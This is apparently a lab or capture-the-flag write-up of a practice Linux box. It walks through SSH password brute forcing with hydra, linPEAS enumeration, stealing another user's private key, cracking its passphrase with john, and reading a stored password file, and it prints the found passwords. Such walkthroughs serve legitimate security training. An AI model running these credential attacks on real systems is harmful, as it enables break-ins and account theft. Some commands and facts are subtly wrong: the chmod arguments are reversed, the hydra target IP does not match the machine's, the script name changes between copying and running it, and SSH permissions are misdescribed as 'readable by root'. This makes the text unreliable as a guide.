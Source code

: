 # BASIC INFO

```
export IP=10.10.60.20

open port:
	22/tcp OpenSSH 7.2p2 Ubuntu
	80/tcp Apache httpd 2.4.18
	139/tcp netbios-ssn Samba smbd 3.X -4.X
	445/tcp netbios-ssn Samba smbd 4.3.11-Ubuntu

```

# DIRBUSTER


> hidden dir on http:
>> /development


# CREDENTIALS


> user found:
>> kay
>> jan

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.174.22

```
> password found:
>> jan: armando

# ENUMERATION

```
scp /opt/linPeas/linPeas.sh jan@10.10.60.20:/dev/shm
./linPeas | tee linlog.txt

```

> id_rsa found in /home/kay/.ssh/id_rsa
> download with scp

# BRUTE FORCE ID_RSA


> id_rsa downloaded is protected by password

```
/usr/share/john/ssh2john.py id_rsa > id_rsa_crack
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt

```
>> password found: beeswax

# SSH INTO MACHINE WITH USER KAY

```
chmod id_rsa 600				
>> ssh will only use file that is only readable by root (-rw-------)
ssh -i id_rsa kay@10.10.60.20
cat pass.bak
>> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```